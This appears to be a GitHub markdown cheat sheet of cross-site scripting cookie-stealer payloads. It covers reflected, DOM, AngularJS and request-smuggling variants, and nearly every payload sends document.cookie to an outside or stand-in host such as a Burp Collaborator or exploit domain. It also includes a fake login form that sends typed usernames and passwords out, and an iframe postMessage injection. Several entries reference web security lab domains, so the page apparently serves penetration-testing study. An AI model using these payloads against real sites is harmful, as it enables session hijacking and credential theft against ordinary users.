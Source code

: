 
# CookieStealer XSS Payloads  

>XSS Cookie Stealer payloads using JavaScript

```Javascript
JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie
```  

>Reflected XSS into HTML context with nothing encoded in search.  

```JavaScript
<script>document.location='https://COLLABORATOR.com?c='+document.cookie</script>
```  

>Reflected DOM XSS, into JSON data that is processed by **eval().**  

```JavaScript
\"-fetch('https://Collaborator.com?cs='+btoa(document.cookie))}//
```  

>JavaScript Template literals are enclosed by backtick ( \` ) characters instead of double or single quotes.  

```JavaScript
${document.location='https://tvsw9dim0doynnpscx9mgtq67xdo1jp8.oastify.com/?cookies='+document.cookie;}
```  

![JavaScript template string](../images/javascript-template-string.png)  

>AngularJS DOM XSS Attack **constructor** payloads  

```JavaScript
{{$on.constructor('alert(1)')()}}
```

```JavaScript
{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}
```  
  
>HTTP request smuggling to deliver reflected XSS  

```JavaScript
a"/><script>document.location='https://bc.oastify.com/cookiestealer.php?c='+document.cookie;</script>
```  

>More Cross-Site Scripting (XSS) example cookie stealer payloads.  

```JavaScript
<script>
document.location='https://Collaborator.com/?cookiestealer='+document.cookie;
</script>
```

```JavaScript
document.location='https://burp-collab.x.com/cookiestealer.php?c='+document.cookie;
```  

```Javascript
document.location='https://BurpCollaBoRaTor.oastify.com/?FreeCookies='+document.cookie;
```

```Javascript
/?evil='/><script>document.write('<img src="https://exploit.com/steal.MY?cookie=' document.cookie '" />')</script> 
```

```Javascript
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=document.location='http://BURPCOL.oastify.com/?StealCookies=' document.cookie ;//
```

```Javascript
<img src=x onerror=this.src=//exploit.net/?'+document.cookie;>
```

```Javascript
<script>
    document.location=""http://stock.lab.web-security-academy.net/?productId=4
            <script>
                    var req = new XMLHttpRequest(); 
                    req.onload = reqListener; 
                    req.open('get','https://lab.web-security-academy.net/accountDetails',true); 
                    req.withCredentials = true;
                    req.send();
                    function reqListener() {
                            location='https://exploit.web-security-academy.net/log?key='%2bthis.responseText;
                    };
            %3c/script>
            &storeId=1""
</script>
```

```Javascript
<script>
fetch(‘https://burpcollaborator.net’, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>
```

```Javascript
<script>
  fetch('https://COLLABORATOR.com', {
  method: 'POST',
  mode: 'no-cors',
  body:'PeanutButterCookies='+document.cookie
  }); 
</script>   
```

```Javascript
x"); var fuzzer=new Image;fuzzer.src="https://COLLABORATOR.com/?"+document.cookie; //
```

```Javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>  
```

```Javascript
<script>new Image().src="http://Collaborator.COM/cool.jpg?output="+document.cookie;</script>
```

```Javascript
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.bad/?'+document.cookie;>
```

```Javascript
<script>
document.write('<img src="http://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```

```Javascript
<img src=x onerror=this.src='http://exploit.bad/?'+document.cookie;>
```

```Javascript
<script>
fetch('https://BURP-COLLABORATOR', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

>::::  Steal Password / Cookie Stealer ::::

>XMLHttpRequest

```html
<input name=username id=username>
<input type=password name=password id=password onhcange="CaptureFunction()">
<script>
function CaptureFunction()
{
var user = document.getElementById('username').value;
var pass = document.getElementById('password').value;
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://exploit.com/?username=" + user + "&password=" + pass, true);
xhr.send();
}
</script>
```

>FETCH API

```Javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


>::::  DATA EXFILTRATION  /  COOKIE STEALER  ::::
```Javascript
  </textarea><script>fetch('http://exploit.evil?cookie=' + btoa(document.cookie) );</script> 
```

```Javascript
<script>document.write('<img src="http://evil.net/submitcookie.php?cookie=' + escape(document.cookie) + '" />');</script>
```

```Javascript
<script>
document.write('<img src="HTTPS://EXPLOIT.net/?c='+document.cookie+'" />');
</script>
```

```Javascript
<script>document.write('<img src="https://EXPLOIT.net/?c='%2bdocument.cookie%2b'" />');</script>
```  

>IFRAMEs

```JavaScript
<iframe src=https://TARGET.net/ onload='this.contentWindow.postMessage(JSON.stringify({
    "type": "load-channel",
    "url": "JavaScript:document.location='https://COLLABORATOR.com?c='+document.cookie"
}), "*");'>
```  

>Javascript set test cookie in current browser session with no HttpOnly flag to allow proof of concept cookie stealer.  

```
document.cookie = "TopSecretCookie=HackThePlanetWithPeanutButter";
```

